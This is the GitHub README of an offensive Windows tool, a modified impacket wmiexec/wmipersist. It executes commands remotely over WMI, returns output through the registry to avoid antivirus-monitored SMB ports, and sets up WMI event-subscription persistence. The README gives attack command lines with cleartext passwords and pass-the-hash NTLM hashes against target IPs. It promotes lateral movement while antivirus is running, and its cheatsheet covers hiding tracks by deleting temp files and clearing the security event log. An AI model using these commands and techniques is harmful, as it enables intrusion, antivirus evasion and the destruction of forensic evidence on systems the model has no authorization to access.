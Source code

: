 # wmiexec-RegOut

Modify version of impacket wmiexec.py,wmipersist.py. Got output(data,response) from registry, don't need SMB connection, but I'm in the bad code :(

# Table of content

* [Overview](#overview)
* [Requirements](#Requirements)
* [Usage](#Usage)
* [Cheatsheet](#Cheatsheet)
* [Todo](#todo)
* [References](#References)

## Specially Thanks to:

- ### [@rootclay](https://github.com/rootclay), wechat: _xiangshan

## Overview

In original wmiexec.py, it get response from smb connection (port 445,139). Unfortunately, some antivirus software are monitoring these ports as high risk.  
In this case, I drop smb connection function and use others method to execute command.

- wmiexec-reg-sch-UnderNT6-wip.py: Executed command by using win32-scheduledjob class. According to xiangshan, win32-scheduledjob class only works under windows NT6 (windows-server 2003).  
BTW, win32_scheduledjob has been disabled by default after windows NT6. Here is the way how to enable it.
```text
Key: HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\Configuration 
Name: EnableAt 
Type: REG_DWORD
Value: 1
```

- wmipersist-wip.py `(Highly recommend, !!!only works on impacket v0.9.24!!!)`: A Python version of [WMIHACKER](https://github.com/rootclay/WMIHACKER), which I picked the vbs template from it. Attacker can use it to do lateral movement safety under antivirus-software running.


- wmiexec-regOut.py: Just a simple Win32_Process.create method example .

## How it works?

- ### wmiexec-wip.py workflow:  
  Step 1:
   - WMIC authenticated remotly

  Step 2:
    - Use win32process class and call create method to execute command. Then, write down the result into C:\windows\temp directory named [uuid].txt

  Step 3:
    - Encode the file content to base64 strings (need to wait a few seconds)

  Step 4:
    - Add the converted base64 string into registry, and key name call [uuid]

  Step 5:
    - Get the base64 strings remotly and decode it locally.

- ### wmipersist-wip.py workflow:  
  Step 1:
   - Add custom vbs script into ActiveScriptEventConsumer class.

  Step 2:
   - Creating an Event Filter.

  Step 3:
   - Trigger FilterToConsumerBinding class to PWNED!

## Requirements

Generally, you just need to install official impacket.  
- [Portal](https://github.com/SecureAuthCorp/impacket)

## Usage
- ### wmiexec-wip.py usage:  
  With cleartext password
  ```bash
  python3 wmiexec-reg.py administrator:111qqq...@192.168.10.90 'whoami'
  ```
  ![image](https://user-images.githubusercontent.com/30458572/134797669-6d62e72f-a005-4001-aa47-09a9ffe86ae1.png)

  With NTLM hashes
  ```bash
  python3 wmiexec-reg.py -hashes e91d2eafde47de62c6c49a012b3a6af1:e91d2eafde47de62c6c49a012b3a6af1 administrator@192.168.10.90 'whoami'
  ```
  ![image](https://user-images.githubusercontent.com/30458572/137060383-7c13086c-0d4a-424d-a00a-561de836cacb.png)

- ### wmipersist-wip.py usage (Default is no output):  
  With cleartext password (without output)
  ```bash
  python3 wmipersist-wip.py administrator:111qqq...@192.168.10.20 'command'
  ```
  ![image](https://user-images.githubusercontent.com/30458572/137947814-2185d6b4-a20c-4bfc-804b-e5953bb016ac.png)

  With NTLM hashes
  ```bash
  python3 wmipersist-wip.py -hashes e91d2eafde47de62c6c49a012b3a6af1:e91d2eafde47de62c6c49a012b3a6af1 administrator@192.168.10.90 'whoami'
  ```
  ![image](https://user-images.githubusercontent.com/30458572/137948043-6d419057-5b62-45d4-a4df-e625b604dddd.png)

  With output
  ```bash
  python3 wmipersist-wip.py administrator:111qqq...@192.168.1.20 "whoami /priv" -with-output
  python3 wmipersist-wip.py administrator@192.168.1.20 "whoami /priv" -hashes e91d2eafde47de62c6c49a012b3a6af1:e91d2eafde47de62c6c49a012b3a6af1 -with-output
  ```
  ![image](https://user-images.githubusercontent.com/30458572/137948435-3f0fc14b-252f-411a-a681-9ba323edccb0.png)
  ![image](https://user-images.githubusercontent.com/30458572/137948639-c5f75993-bde2-47b9-8717-5e5309a36dd4.png)
  
  Under Huorong antivirus-software (Using WMIHACKER VBS template!!!)
  ![2ef86c8d934dc45498478aa9aedd91c](https://user-images.githubusercontent.com/30458572/137949219-b849be89-321e-4d1b-abf9-951509544679.png)

## Cheatsheet
  
  - Do not forget to clean up temp directory after run command with out put.  
  Command: `del /q /f /s C:\windows\temp\*`  
  ![image](https://user-images.githubusercontent.com/30458572/147390683-5556f7a0-17da-4308-8f16-e82783ab42b3.png)

  - Command include double quotes.  
  Make double quotes inside single quotes `wevtutil cl '"security"'`  
  ![image](https://user-images.githubusercontent.com/30458572/147390799-a3725a15-3c1c-4d63-850d-04e372ce04f7.png)
  
## Todo

- Optimize code (In bad code now.)
- Filetransfer.py (Comming soon)
- Add more functions

## References
- https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py
- https://github.com/360-Linton-Lab/WMIHACKER
- https://github.com/FortyNorthSecurity/WMIOps
- https://docs.microsoft.com/en-us/windows/win32/cimwin32prov/operating-system-classes
